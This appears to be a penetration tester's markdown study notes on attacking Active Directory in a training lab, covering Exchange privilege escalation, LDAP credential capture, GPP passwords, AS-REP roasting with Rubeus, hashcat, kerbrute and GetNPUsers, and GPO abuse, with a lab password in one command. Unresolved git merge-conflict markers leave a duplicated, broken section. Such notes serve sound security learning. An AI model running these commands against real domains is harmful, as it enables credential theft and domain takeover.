 

## Exchange Weaknesses:
- Groups often have lots of privileges in Exchange, and can be utilized for privilege escalation if understood properly.

"**Exchange Windows Permissions**": Members can write to the DACL, adding themselves to **DCSync** privileges.

"**Organizational Management**": Effectively the "Domain Admins" of Exchange, can access all the mailboxes of all domain users.

**Dumping credentials from memory on a Exchange server** will produce lots of cleartext credentials due to users logging in to Outlook Web Access (OWA) and the server caching their credentials.

## PrivExchange attack
-> A weakness that allows a domain user with a mailbox to get the exchange server to authenticate to any host over HTTP.

## MS14-068 (CVE‑2014‑6324)
Allows a user to force a Privilege Attribute Certificate (PAC) to authenticate to the KDC as an administrator

## Sniffing LDAP credentials
Sometimes printers will have stored credentials. Some printers have a 'test connection' functionality where we can point the connection back to our attacker machine and gather creds from the printer that way. (setup a netcat listener on port 389)

## Enumerating DNS Records:
More thorough enumeration of DNS records can give us better insight into the domain.

We can use a tool (with valid domain creds) such as `adidnsdump`
```shell
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 
```

## What is LDAP?
Phonebook. Store user information and authentication.

Map out your organization.

LDAP -> AD
OpenLDAP -> Linux

LDAP Provides the *information* about what services a user can access, but does not actually enforce that access. (provides the data to systems that do enforce)

**Rather than having 500 servers on a big network that contain a database to authenticate individuals**, an LDAP server can be used to centralize that authentication.

## Password in Description Field
Utilize Powerview `Get-DomainUser` module to find sensitive information in the description field of AD users.
```powershell
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```

## PASSWD_NOTREQD Field
If this is set, the user is not subject to the current password policy length, meaning they could have a shorter password or no password at all (if empty passwords are allowed in the domain).
````powershell
Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
````

## Credentials in SMB Shares and SYSVOL Scripts

```powershell
ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```

## Group Policy Preferences (GPP) Passwords

Sensitive data can be stored on the SYSVOL share
```shell
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin
# Look for exposed credentials for a machine or user that automatically logs on
```

## ASREPRoasting
-> Obtain TGTs for any account that has the `do not require Kerberos pre-authentication`

> The success of this attack depends on the account having a relatively weak password.

- **Kerberoasting** = crack service account credentials via SPN service tickets.
- **AS-REP Roasting** = crack user passwords directly by exploiting accounts without pre-authentication.

<<<<<<< HEAD
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
# Find users with Powerview who are vulnerable to ASRepRoasting

.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
# Request the hash of the ASRepRoastable user
```

==Crack the hash offline with hashcat==

```shell
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```


### Kerbrute
-> Will automatically retrieve the AS-REP for any users found that do not require Kerberos pre-authentication.
```shell
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt
```

### Get-NUsers.py
Can also hunt for users that are vulnerable to AS-REP attacks
```shell
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users
```

## GPO abuse:
GPO's allow for fine grain control over permissions, but can be complex and can lead to misconfigurations that can be compromised by attackers. These attacks can be used to:
1. Add additional privileges to users
2. Add a local admin user to one or more hosts
3. Create an immediate scheduled task

```powershell
Get-DomainGPO |select displayname
# Enumerate GPO names with PowerView
```

=======
```PowerShell

Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

